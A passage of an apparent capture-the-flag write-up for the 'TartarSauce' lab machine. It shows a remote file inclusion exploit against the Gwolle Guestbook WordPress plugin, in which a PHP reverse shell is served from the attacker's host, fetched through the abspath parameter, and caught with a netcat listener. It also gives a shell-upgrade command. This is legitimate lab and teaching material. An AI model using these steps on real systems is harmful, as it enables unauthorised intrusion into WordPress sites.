 ```
 | Found By: Known Locations (Aggressive Detection)
 |
 | Version: 2.3.10 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt

<--snip-->

```

![gwolle](/assets/img/tartarsauce/tartar-gwolle.png)

`searchsploit -x 38861`

![gwolle-x](/assets/img/tartarsauce/tartar-searchsploit-gwolle-x.png)


<h3>Exploit</h3>

Get a copy of a php-reverse-shell.php (either from [pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) or /usr/share/webshells/php). Rename it `wp-load.php`, setting the ip and port accordingly.

Serve the file with a simple python web server.
`python3 -m http.server 80`

Set a netcat listener.
`nc -nlvp 6969`

Use the following url.

```
10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.17/
```


Catch the shell...make it better...

```
$ python -c 'import pty;pty.spawn("/bin/bash")'                                                                    
www-data@TartarSauce:/$                 
```
